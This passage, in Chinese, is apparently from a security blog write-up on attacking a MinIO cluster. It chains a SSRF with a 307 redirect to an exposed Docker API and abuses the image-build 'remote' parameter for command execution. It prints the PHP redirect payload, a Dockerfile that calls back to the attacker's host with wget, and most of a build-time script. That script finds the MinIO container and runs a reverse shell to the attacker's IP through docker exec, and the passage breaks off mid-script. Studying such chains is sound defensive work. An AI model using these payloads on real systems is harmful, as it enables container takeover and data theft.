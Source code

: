 继续翻越Docker文档，我发现了另一个API，[Build an image](https://docs.docker.com/engine/api/v1.41/#operation/ImageBuild)：

[![image-20210124232945843.png](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/81f686d6-4580-428a-bb4c-d2dc4f2b23d8.5026e621dd2a.png)](https://www.leavesongs.com/media/attachment/2021/01/30/81f686d6-4580-428a-bb4c-d2dc4f2b23d8.png)

这个API的大部分参数是通过Query Parameters传输的，我们可以控制。阅读其中的选项，发现它可以接受一个名为`remote`的参数，其说明为：

> A Git repository URI or HTTP/HTTPS context URI. If the URI points to a single text file, the file’s contents are placed into a file called `Dockerfile` and the image is built from that file. If the URI points to a tarball, the file is downloaded by the daemon and the contents therein used as the context for the build. If the URI points to a tarball and the `dockerfile` parameter is also specified, there must be a file with the corresponding path inside the tarball.

这个参数可以传入一个Git地址或者一个HTTP URL，内容是一个Dockerfile或者一个包含了Dockerfile的Git项目或者一个压缩包。

也就是说，Docker API支持通过指定远程URL的方式来构建镜像，而不需要我在本地写入一个Dockerfile。

所以，我尝试编写了这样一个Dockerfile，看看是否能够build这个镜像，如果可以，那么我的4444端口应该能收到wget的请求：

```
FROM alpine:3.13
RUN wget -T4 http://192.168.1.142:4444/docker/build
```

然后修改前面的index.php，指向Docker集群的2375端口：

```
<?php
header('Location: http://192.168.227.131:2375/build?remote=http://192.168.1.142:4443/Dockerfile&nocache=true&t=evil:1', false, 307);
```

进行SSRF攻击，等待了一会儿，果然收到请求了：

[![image-20210124233853616.png](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/db483d55-f1d5-4a3e-9d00-b53d9833d464.da172f0b4e32.png)](https://www.leavesongs.com/media/attachment/2021/01/30/db483d55-f1d5-4a3e-9d00-b53d9833d464.png)

完美，我们已经可以在目标集群容器里执行任意命令了。

此时离我们的目标，拿下MinIO，还差一点点，后面的攻击其实就比较简单了。

因为现在可以执行任意命令，我们就不会再受到SSRF漏洞的限制，可以直接反弹一个shell，或者可以直接发送任意数据包到Docker API，来访问容器。经过一顿测试，我发现MinIO虽然是运行的一个service，但实际上就只有一个容器。

所以我编写了一个自动化攻击MinIO容器的脚本，并将其放在了Dockerfile中，让其在Build的时候进行攻击，利用`docker exec`在MinIO的容器里执行反弹shell的命令。这个Dockerfile如下：

```shell
FROM alpine:3.13

RUN apk add curl bash jq

RUN set -ex && \
    { \
        echo '#!/bin/bash'; \
        echo 'set -ex'; \
        echo 'target="http://192.168.227.131:2375"'; \
        echo 'jsons=$(curl -s -XGET "${target}/containers/json" | jq -r ".[] | @base64")'; \
        echo 'for item in ${jsons[@]}; do'; \
        echo '    name=$(echo $item | base64 -d | jq -r ".Image")'; \
        echo '    if [[ "$name" == *"minio/minio"* ]]; then'; \
        echo '        id=$(echo $item | base64 -d | jq -r ".Id")'; \
        echo '        break'; \
        echo '    fi'; \
        echo 'done'; \
        echo 'execid=$(curl -s -X POST "${target}/containers/${id}/exec" -H "Content-Type: application/json" --data-binary "{\"Cmd\": [\"bash\", \"-c\", \"bash -i >& /dev/tcp/192.168.1.142/4444 0>&1\"]}" | jq -r ".Id")'; \
```